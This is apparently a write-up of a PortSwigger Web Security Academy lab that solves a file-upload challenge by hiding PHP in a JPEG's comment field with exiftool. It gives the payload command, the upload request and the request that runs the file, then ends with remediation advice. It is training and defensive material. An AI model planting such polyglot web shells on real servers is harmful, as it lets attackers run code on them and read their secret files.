



# Remote code execution via polyglot web shell upload

**Lab:** PortSwigger Web Security Academy — *Remote code execution via polyglot web shell upload* (Practitioner).

This upload feature validates **actual file content** — it checks magic bytes and image structure, not just the declared `Content-Type` or filename extension — which defeats the simpler bypasses used in the other labs in this section. The fix here is to make the file genuinely valid as *both* an image and a PHP script: a **polyglot**.

## 1. Build a JPEG/PHP polyglot with exiftool

Starting from a real JPEG (so magic bytes and image structure are all genuinely valid), `exiftool` writes the PHP payload into the image's **Comment** metadata field rather than into the pixel data:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" images.jpg -o polyglot.php
```

```text
1 image files created
```



The result, `polyglot.php`, still opens and renders as a valid JPEG (so content-based validation accepts it) while carrying the PHP payload inline in a place the image decoder itself ignores — but a PHP interpreter will still find and execute if the file is ever parsed as a script.

## 2. Upload the polyglot file

Uploaded as the avatar, with the real `.php` extension this time (content validation is the control being targeted, not extension filtering):

```http
POST /my-account/avatar HTTP/2
Content-Type: multipart/form-data; boundary=----geckoformboundary457a8ee6b845fe905517d4c14d9afa5f
Content-Length: 5451

------geckoformboundary457a8ee6b845fe905517d4c14d9afa5f
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: application/octet-stream

ÿØÿàJFIFÿþM<?php echo 'START ' . ...
```

```text
HTTP/2 200 OK
The file avatars/polyglot.php has been uploaded.
```



The upload succeeds because the file's magic bytes (`ÿØÿà` = `FF D8 FF E0`, standard JPEG/JFIF header) and overall structure still pass the server's image validation — the PHP payload is invisible to an image parser, sitting in a metadata field it doesn't execute.

## 3. Request the file and read the secret

```text
GET /files/avatars/polyglot.php HTTP/2
```

Requested directly, the webserver treats the `.php` extension as authoritative and hands the file to the PHP interpreter, which executes the embedded `system`/`file_get_contents` call. The response mixes binary JPEG bytes with the plaintext `START ... END` markers wrapping the leaked secret:



The `START`/`END` markers in the payload make it easy to isolate the secret value from the surrounding binary noise in the response.

## 4. Submit the secret

Extract the value between `START` and `END` and submit it to solve the lab.

## Why it works

Content-based validation (magic bytes, valid image structure, sometimes a full decode/re-encode) is a real improvement over header- or extension-only checks, but it only verifies the file is *a valid instance of the claimed type* — it does not guarantee the file contains *nothing else*. Image formats carry metadata fields (EXIF comments and similar) that are not part of the pixel data and are ignored by image decoders, which makes them a convenient place to hide a second, entirely different payload: a file can be both a perfectly valid JPEG and a perfectly valid PHP script at the same time. The vulnerability is completed by the webserver's willingness to execute that same file as PHP, based solely on its extension, once it's sitting in a web-accessible path.

## Remediation

- Don't rely on "is this a structurally valid image" as a security boundary. Where possible, fully **decode and re-encode** uploaded images server-side (stripping all metadata) before storing them — this destroys any payload hidden outside the pixel data.
- Strip or refuse to preserve EXIF/metadata fields on upload regardless of whether re-encoding is performed.
- Store uploads with a server-generated name/extension so the file is never requestable with a `.php` (or other script) extension in the first place, independent of its content.
- Ensure the upload directory has script execution disabled at the webserver level, so even a successful polyglot upload cannot be executed.
